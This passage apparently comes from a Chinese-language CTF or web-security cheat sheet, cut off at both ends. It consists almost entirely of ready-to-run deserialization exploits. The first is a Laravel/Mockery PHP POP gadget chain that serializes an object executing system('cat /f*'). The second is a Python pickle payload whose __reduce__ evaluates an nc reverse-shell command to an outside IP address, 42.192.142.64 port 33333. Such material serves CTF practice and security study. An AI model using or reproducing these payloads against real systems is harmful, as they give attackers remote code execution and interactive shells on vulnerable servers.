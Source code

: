 ```
}
namespace Illuminate\Foundation\Console{
    class QueuedCommand
    {
        public $connection;
        public function __construct($connection)
        {
            $this->connection = $connection;
        }
    }
}
namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct($events, $event)
        {
            $this->events = $events;
            $this->event = $event;
        }
    }
}
namespace{
    $line = new PhpParser\Node\Scalar\MagicConst\Line();
    $mockdefinition = new Mockery\Generator\MockDefinition($line,"<?php system('cat /f*');exit;?>");
    $evalloader = new Mockery\Loader\EvalLoader();
    $dispatcher = new Illuminate\Bus\Dispatcher(array($evalloader,'load'));
    $queuedcommand = new Illuminate\Foundation\Console\QueuedCommand($mockdefinition);
    $pendingbroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispatcher,$queuedcommand);
    echo urlencode(serialize($pendingbroadcast));
}
?>
```

### 9 python反序列化

```
import pickle
import base64
class A(object):
    def __reduce__(self):
        return(eval,('__import__("os").popen("nc 42.192.142.64 33333 -e /bin/sh").read()',))
a=A()
test=pickle.dumps(a)
print(base64.b64encode(test))
```

## (七) PHPCVE
